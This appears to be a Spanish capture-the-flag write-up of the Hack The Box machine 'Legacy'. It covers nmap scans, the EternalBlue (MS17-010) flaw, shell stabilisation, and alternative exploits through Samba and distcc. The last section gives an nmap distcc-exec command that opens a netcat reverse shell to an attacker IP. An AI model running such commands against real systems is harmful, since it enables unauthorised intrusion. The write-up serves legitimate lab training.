




# Legacy

Máquina **Legacy** de dificultad **Easy**.


## Enumeración

Primeramente realizamos un escaneo nmap rápido para averiguar los puertos abiertos.

```
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.4 -oG allPorts
```


Vemos que tenemos abiertos los puertos 135, 139, 445. Realizamos ahora un escaneo mas completo a estos puertos para averiguar versiones y demás.&#x20;

```
sudo nmap -sCV -p135,139,445 10.10.10.4 -oN targeted
```


Vemos que nos dice que es un Windows XP. como solo tenemos samba vamos a ver si encuentra vulnerabilidades conocidas.

```
nmap --script "vuln and safe" -p445 10.10.10.4 -oN smbScan
```


Vemos que nos encuentra la famosa vulnerabilidad MS17-010, **Eternal Blue**.

## Explotación

Buscamos en google posibles exploit de esta vulnerabilidad.


Vemos que la primera opción, **AutoBlue**, es en python3.&#x20;




Comprobamos que nos hemos conectado y que estamos en la maquina objetivo como **root**.

No tenemos pues que escalar privilegios. Hacemos un tratamiento de la tty con la siguiente secuencia de comandos:

```
script /dev/null -c bash
# CTLR + Z para poner en segundo plano la terminal
stty raw -echo; fg
reset xterm
export TERM=xterm
export shell=bash
stty rows 51 columns 189
```

A continuación obtenemos las flags de user y de root.



Y damos la máquina por terminada.

## Otras formas de explotación

### Con SMBCLIENT

Buscamos exploit con searchexploit y encontramos uno de metasploit.&#x20;



Lo examinamos y vemos que lanza un comando como username anteponiendo **nohup** en el usuario y ademas tiene que ser SBMv1.


Podemos entonces lanzar lo mismo con smbclient.



### Explotando DISTCCC puerto 3632

Buscamos en Google "distccc exploit" y observamos que aparece en **hacktricks**.


Probamos con nmap como nos indica el articulo. En el comando ponemos la shell inversa.

```
nmap -p3632 10.10.10.3 --script distcc-exec --script-args="distcc-exec.cmd='nc 10.10.14.31 443 -e /bin/sh'"
```

